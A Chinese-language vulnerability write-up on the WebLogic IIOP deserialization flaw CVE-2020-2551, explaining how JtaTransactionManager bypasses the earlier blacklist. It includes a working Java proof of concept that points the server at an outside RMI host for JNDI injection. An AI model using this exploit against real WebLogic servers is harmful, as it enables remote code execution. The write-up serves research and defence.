 - [Weblogic IIOP反序列化(CVE-2020-2551)](#weblogic-iiop反序列化cve-2020-2551)
  - [漏洞原理](#漏洞原理)
    - [JtaTransactionManager](#jtatransactionmanager)
    - [POC](#poc)
  - [补丁](#补丁)
  - [参考](#参考)

# Weblogic IIOP反序列化(CVE-2020-2551)
## 漏洞原理
### JtaTransactionManager 
在CVE-2020-2551中利用的是JtaTransactionManager类,其原理和CVE-2018-3191是一样的,只不过这次使用的是IIOP协议,因为在CVE-2018-3191中的补丁中是在resolveClass添加黑名单,
其中是会读取类的父类进行判断的,所以黑名单中的类是JtaTransactionManager的父类,但在IIOP中也是使用的黑名单,但不是通过esolveClass进行过滤,并不会读取类的父类进行校验,导致可以直接使用JtaTransactionManager再次利用.
### POC 
```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;
import ysoserial.payloads.util.Gadgets;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;
import java.rmi.Remote;
public class T3 {
    public static void main(String[] args) throws Exception {
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", "iiop://127.0.0.1:7001");
        InitialContext initialContext = new InitialContext(env);
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://192.168.65.2:1099/bzfdiv");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        initialContext.rebind("hello", remote);

    }
}

```
调用堆栈如下  
![](2023-02-28-16-29-03.png)  
## 补丁
封禁IIOP协议
## 参考
https://xz.aliyun.com/t/7422#toc-6
